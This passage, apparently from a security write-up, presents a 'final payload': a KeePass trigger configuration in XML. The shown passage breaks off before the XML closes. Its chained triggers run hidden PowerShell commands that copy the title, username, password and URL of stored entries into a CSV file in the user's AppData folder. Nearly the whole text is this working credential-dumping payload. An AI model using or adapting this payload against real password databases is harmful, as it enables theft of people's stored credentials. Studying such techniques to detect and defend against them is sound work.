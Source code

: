 Our final payload will be:

```xml
<Triggers>
<Trigger>
	<Guid>nKQhMaPWI0StKa5oNXWEaQ==</Guid>
	<Name>watcher</Name>
	<TurnOffAfterAction>true</TurnOffAfterAction>
	<Events>
		<Event>
			<TypeGuid>2PMe6cxpSBuJxfzi6ktqlw==</TypeGuid>
			<Parameters />
		</Event>
	</Events>
	<Conditions>
		<Condition>
			<TypeGuid>y0qeNFaMTJWtZ00coQQZvA==</TypeGuid>
			<Parameters>
				<Parameter>%appdata%\extract.txt</Parameter>
			</Parameters>
			<Negate>false</Negate>
		</Condition>
	</Conditions>
	<Actions>
		<Action>
			<TypeGuid>tkamn96US7mbrjykfswQ6g==</TypeGuid>
			<Parameters>
				<Parameter>extract</Parameter>
				<Parameter>0</Parameter>
			</Parameters>
		</Action>
	</Actions>
</Trigger>
<Trigger>
	<Guid>Zomn/ZbbeE6fMGacmozGFw==</Guid>
	<Name>extract</Name>
	<TurnOffAfterAction>true</TurnOffAfterAction>
	<Events>
		<Event>
			<TypeGuid>bES7XfGLTA2IzmXm6a0pig==</TypeGuid>
			<Parameters>
				<Parameter>4</Parameter>
				<Parameter>False</Parameter>
			</Parameters>
		</Event>
	</Events>
	<Conditions>
		<Condition>
			<TypeGuid>uQ/4B3M4T+q7LrwL6juYww==</TypeGuid>
			<Parameters>
				<Parameter>{CMD:&amp;PowerShell.exe -C "$uid='{REF:I@I:0{CMD:/PowerShell.exe -C "$eus='';if (!(Test-Path $env:APPDATA'\extract.csv')){ni -itemType File -Path $env:APPDATA -Name 'extract.csv' | Out-Null;};foreach($line in gc $env:APPDATA'\extract.csv'){$eus+=' -'+$line.Split(',')[0];}echo $eus;"/M=C,W:0,O:1,WS=H/}}';echo $uid;if(!($uid.StartsWith('{REF'))){ac -Path $env:APPDATA'\extract.csv' -Value $uid -NoNewline;}"&amp;M=C,W:0,O:1,WS=H&amp;}{CMD:&amp;PowerShell.exe -C "$title='{REF:T@I:{CMD:/PowerShell.exe -C "echo (gc -Path $env:APPDATA'\extract.csv')[-1];"/M=C,W:0,O:1,WS=H/}}';$user='{REF:U@I:{CMD:/PowerShell.exe -C "echo (gc -Path $env:APPDATA'\extract.csv')[-1];"/M=C,W:0,O:1,WS=H/}}';$password='{REF:P@I:{CMD:/PowerShell.exe -C "echo (gc -Path $env:APPDATA'\extract.csv')[-1];"/M=C,W:0,O:1,WS=H/}}';$url='{REF:A@I:{CMD:/PowerShell.exe -C "echo (gc -Path $env:APPDATA'\extract.csv')[-1];"/M=C,W:0,O:1,WS=H/}}';$output=','+$title+','+$user+','+$password+','+$url;echo $output;if(!($title.StartsWith('{REF'))){ac -Path $env:APPDATA'\extract.csv' -Value $output;}else{echo 'stop';}"&amp;M=C,W:0,O:1,WS=H&amp;}</Parameter>
				<Parameter>0</Parameter>
				<Parameter>stop</Parameter>
```